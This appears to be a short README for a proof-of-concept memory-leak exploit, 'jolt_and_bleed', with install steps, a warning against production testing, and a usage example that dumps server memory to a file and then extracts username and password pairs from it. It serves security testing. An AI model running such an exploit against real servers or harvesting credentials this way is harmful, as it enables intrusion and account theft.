 # Install
```
pip install --user hexdump
```
# WARNING
Don't test on productuion servers.

# Usage example
```
$ python jolt_and_bleed_poc.py -s 192.168.56.101 -d out.bin -p 9034 9035 9036 9037 9038
...
...
Done

$ python extractCreds.py out.bin
RCLAYBURN:aeM9CuaXatohr1aixe9pohx4u
SADAMS:Ohl0ac4Gaasilae4Nouzoheeh
AJORDAN:peeW1bevoh7eitah1aucheegh
DMANAGER:ohquaix6aipoa6Euy7shu5moH
